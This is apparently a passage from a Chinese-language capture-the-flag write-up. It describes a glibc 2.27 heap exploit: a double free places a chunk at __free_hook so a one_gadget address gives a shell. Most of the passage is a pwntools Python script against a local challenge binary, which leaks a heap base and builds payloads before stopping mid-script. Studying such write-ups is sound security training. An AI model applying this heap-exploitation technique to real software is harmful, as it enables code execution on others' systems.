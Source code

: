 ![5](img/club5.png)

4. 通过 double free 在\_\_free_hook 处分配 chunk，然后写入 libc2.27 的 one_gadget 的地址成功 getshell

```python
from pwn import *

context.log_level = 'debug'
p = process("./contact")
libc = ELF('./libc.so.6') #libc版本为2.27


def add(name, description):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('name: ')
    p.sendline(name)
    p.recvuntil('description(max 0x29bytes): \n')
    p.send(description)

def remove(name):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('name of member: \n')
    p.sendline(name)

def edit(idx, description):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('number of member: \n')
    p.sendline(str(idx))
    p.recvuntil('new description: \n')
    p.send(description)

add('a', 'a')
add('b', 'b')
add('c', 'c')
add('d', 'd')
add('e', 'e')
add('x', 'x')
add('x', 'x')

remove('x')
remove('x')
remove('a')
remove('')
add('a', 'a')
edit(0, 'a')

p.recvuntil('a: ')
heap_base = u64(p.recvline()[:-1].ljust(8, '\x00')) / 0x1000 * 0x1000 + 0x250
print "heap_base: %#x" % heap_base

payload = p64(heap_base+0x30)
edit(0, payload)

add('f', 'f')

payload = p64(0)*3 + p64(0xc1)
```
